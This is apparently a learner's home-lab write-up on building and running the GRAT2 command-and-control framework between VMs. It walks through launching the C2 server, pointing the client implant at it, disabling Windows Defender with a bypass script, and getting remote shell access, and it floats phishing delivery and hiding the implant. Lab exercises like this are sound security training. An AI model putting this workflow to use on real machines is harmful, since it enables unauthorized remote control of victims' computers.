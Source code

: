 ## Exercise 1 - Command and Control

This is an exercise presented to me by a mentor which I've recreated to gain an intro in malware propagation and transmition.

---
### Environment
This exercise was performed by having both the attack and target machine within the same network.
#### Operating System
- Latest kali-VM rolling update (Red)
- Windows10 up to date (Red)
- Windows 10 up to date (Blue)

#### Tools
- GRAT2 - C&C (source: https://github.com/r3nhat/GRAT2)
- Bypass-Windows-Defender-VBS (Optional) (source: https://github.com/NYAN-x-CAT/Bypass-Windows-Defender-VBS/security)
- Visual Studio 2022 (Community)

---
### Methodology
#### Objectives/Flags
- Establish a C&C server on the Kali
- Build malware on the Win10(Red)
- Propagate executable to the target Win10(Blue).
#### Reconnaissance
N/A
#### Weaponization 
The first step was to setup up `Visual Studio (2022 Community edition)` on the Win10 (Red) where the client executable will be built. Once installed it was just a matter of installing the necessary addons that would allow projects to be built. This was a struggle as I haven’t had exposure to this IDE and program development. The best way I could describe it was just ensuring I installed the latest dot.Net SDK frameworks (This was mostly done through trial and error of trying to build the executable and working with the errors to find out what was missing)

Once I downloaded and unzipped out the GRAT2 package, I opened `GRAT2_client.sln`. This as I understand it is the project file where we will then open the sub files to configure. My next task was to set the project to point towards my GRAT2 server which will be hosted on the kali.

On the kali I grabbed the local IPv4 address.
```
ifconfig
  192.168.xxx.xxx
```

From there I needed to install the necessary before we get started.
```
pip3 install -r ~/GRAT2-C&C/GRAT2-master/requirements.txt
```

Now we can launch the server on port 80
```
cd ~/GRAT2-C&C/GRAT2-master/GRAT2_Server
  python3 grat2.py 80
```
The server was now up and running and listening for incoming connections.

Moving back to the Win10(Red) we opened Config.cs and modified the control-server address on line 9.
```
~\GRAT2-master\GRAT2_Client
  c2 = "http://192.168.xxx.xxx/"
```
Now the executable was ready to build however I encountered two errors during this process. Firstly, I was receiving an error related to the target dot.NET framework which was expecting an earlier version that what was currently installed. In order to remediate this error I needed to find what version I was using and retarget the project to use that later version.
The steps I used to find my version of the framework can be found here: `https://www.windowscentral.com/how-quickly-check-net-framework-version-windows-10`
Now that I found my version, I retargeted the version in the `GRAT2_Cient.csproj`
```
<TargetFrameworkVersion>vX.X</TargetFrameworkVersion>
```
Lastly before I could the project, I needed to disable Windows defender as it was picking up the executable's malicious code. I was pointed towards using the `Bypass-Windows-Defender-VBS` which I mentioned earlier to turn it all off. This however wasn't enough and when I built the project, I needed to specifically allow the executable past defender.
Once the executable was successfully built, I found it here: `~\GRAT2-master\GRAT2_Client\bin\Debug\GRAT2_Client.exe`

#### Delivery
I kept it simple for my first attempt at this exercise simply by copying over the executable from the Win10(Red) to the Win10(Blue), however in future I'd like to experiment different delivery techniques such as having it hosted on a HTTP server running on the kali where I then use phishing to have the target get and run the file on the target machine.

#### Exploitation
N/A
#### Installation 
N/A
#### Command & Control
Once the executable is run on the target machine a blank black console appears which creates a connection to the Grat2 server running on Kali. This can be seen on the Kali as a notice that `hostname` has connected. I imagine this console window can be manipulated to remain hidden and run in the background, possibly under disguised service processes.
#### Actions on Objective
From here we can begin to explore and manipulate the target machine with shell access.
From the Grat2 server:
```
listagents
  help
```
---
### After-action
#### What I've learned
This was the first exposure I've had to a command & control tool. It was a bit of a struggle to get Visual Studio working properly to build it out but once figured out it worked as intended. The code itself was a bit too complex for me to understand immediately but I took away the concept of how a server is run and how a target can be connected to it.
#### What I would've done differently
If I was to come back to this exercise I would like to expand upon the attack-chain to deliver the .exe from my attack machine to the target. Additionally, I would like to find ways to experiment with ways to hide the running executable from users and expand upon the actions on objectives to gain more control/visibility over the target's network. 

